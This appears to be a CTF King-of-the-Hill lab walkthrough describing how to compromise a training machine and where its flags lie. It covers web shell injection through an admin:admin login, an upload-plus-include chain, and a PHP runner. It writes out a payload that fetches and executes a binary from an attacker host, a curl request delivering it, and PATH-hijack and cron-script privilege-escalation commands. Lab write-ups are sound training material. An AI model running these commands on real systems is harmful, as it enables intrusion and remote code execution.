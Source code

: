 # H1: Easy KOTH machine

Has a website on 8000, 8001, 8002 and 80.

Path to foothold:

- :8000 at /vbcms has a login form that can be passed with admin:admin. you can then edit the content of the home and about pages etc, injecting a web shell. this gets code execution as `serv1`
- :8001 has a support page that allows you to upload any file as long as its extension is .jpg. then the home page has a trivial file include, which allows you to achieve PHP LFI with your uploaded file. this will get you code execution as `serv2`
- :8002 has a PHP tutorial site, allowing direct execution of whatever PHP you supply (just remember to end lines with a semi colon). this gets you code execution as `serv3`
  - there is no nc on the machine. using reverse_ssh, a payload like `system("wget RHOST:1234/client -O /home/serv3/c && chmod +x /home/serv3/c && /home/serv3/c");` works
  - curl command: 
  
    ```
    curl -d "code=system(%22wget+10.10.10.157%3A1234%2Fclient+-O+%2Fhome%2Fserv3%2Fc+%26%26+chmod+%2Bx+%2Fhome%2Fserv3%2Fc+%26%26+%2Fhome%2Fserv3%2Fc%22)%3B" 10.10.136.24:8002/trycode
    ```

Path to root:

- `serv2` can under sudoers run a script (`serv2 ALL=(ALL:ALL) SETENV:NOPASSWD: /usr/bin/restartServer`) that eventually calls systemctl, and preserves env vars. by creating a file called `systemctl` in /tmp, putting /bin/sh inside it, marking it executable and then setting path to include tmp you can privect to root:

  `echo /bin/sh > /tmp/systemctl && chmod +x /tmp/systemctl && sudo PATH=/tmp:$PATH /usr/bin/restartServer`
  
- `serv3` has a backup.sh script under backups in their home folder that root will run every minute. simply popping a rev shell payload in there will get root.
  - this method has the advantage that it will get called continuosly and might be missed by king squatters
  - note the file needs to be made writable first, `chmod +w /home/serv3/backups/backup.sh`, and if using a binary like reverse_ssh, put it in serv3's home folder not temp.

    ```
    chmod +w /home/serv3/backups/backup.sh
    echo /home/serv3/c >> /home/serv3/backups/backup.sh
    rm /home/serv3/c # after connection is made
    ```

## Flags

- /root/root.txt
- /var/www/serv4/index.php
